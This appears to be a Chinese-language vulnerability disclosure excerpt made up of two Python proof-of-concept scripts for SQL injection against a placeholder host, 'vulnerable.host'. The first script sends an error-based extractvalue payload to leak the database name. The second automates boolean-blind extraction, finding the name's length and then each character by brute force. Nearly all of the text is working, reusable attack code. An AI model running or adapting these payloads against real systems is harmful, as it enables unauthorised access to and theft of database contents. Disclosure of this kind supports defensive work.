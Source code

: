 

 
#### Proof of Concept：
* 报错查询PoC
```
import requests

# 目标 URL
url = "http://vulnerable.host/"

# 构造的 SQL 语句，使用 EXTRACTVALUE 和 RAND() 触发 XML 解析错误，尝试获取数据库名称
# 0x3a 是冒号的十六进制表示，用于分隔错误消息中的信息
sql_injection = "Select/**/extractvalue(rand(),concat(0x3a,(select/**/database())))"

# 构造 POST 数据
data = {
    'sql': sql_injection
}

# 发送 POST 请求
response = requests.post(url, data=data)

# 输出响应内容，可能包含由于错误产生的数据库版本信息
print(response.text)


```
* 布尔盲注PoC
```
import requests

# 目标 URL
url = "http://vulnerable.host/"

# 确定数据库名称长度
def find_database_name_length():
    for length in range(1, 20):  # 假设数据库名称长度不会超过20个字符
        sql_payload = f"Select/**/(length(database())={length})=1"
        response = requests.post(url, data={"sql": sql_payload})
        if "expected_response" in response.text:
            return length
    return -1  # 如果找不到长度，返回-1

# 确定数据库名称的每个字符
def find_database_name(length):
    database_name = ""
    for i in range(1, length + 1):
        for ascii_code in range(32, 127):  # 假设数据库名称只包含可打印字符
            sql_payload = f"Select/**/ASCII(substr(database(),{i},1))={ascii_code}"
            response = requests.post(url, data={"sql": sql_payload})
            if "expected_response" in response.text:
                database_name += chr(ascii_code)
                break
    return database_name

# 主执行流程
database_name_length = find_database_name_length()
if database_name_length != -1:
    database_name = find_database_name(database_name_length)
    print(f"Database Name: {database_name}")
else:
    print("Unable to determine the database name length")

```